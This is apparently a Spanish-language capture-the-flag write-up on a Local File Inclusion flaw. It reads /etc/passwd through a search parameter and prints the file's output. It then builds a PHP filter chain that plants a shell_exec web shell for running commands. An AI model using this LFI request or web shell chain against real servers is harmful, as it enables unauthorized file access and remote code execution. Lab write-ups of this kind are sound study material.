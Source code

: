 ## LFI (Local File Inclusion)

Si en la URL ponemos lo siguiente veremos el archivo `passwd`.

```
URL = http://<IP>/index.php?search=/etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lin:x:1001:1001:lin,,,:/home/lin:/bin/bash
```

Por lo que vemos lo saca bien, asi que vamos a utilizar `wrappers` en este `LFI` para podernos hacer un parametro llamado `CMD` y asi poder ejecutar comando para obtener una shell.

### Wrapper con LFI

URL\_Script = https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit/blob/main/filters\_chain\_oracle\_exploit.py

Si queremos por ejemplo crear un parametro llamado `cmd` que ejecute cualquier comando que le pongamos, seria de la siguiente forma...

```
$ python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
[+] The following gadget chain will generate the following code : <?php echo shell_exec($_GET["cmd"]);?> (base64 value: PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWyJjbWQiXSk7Pz4)
```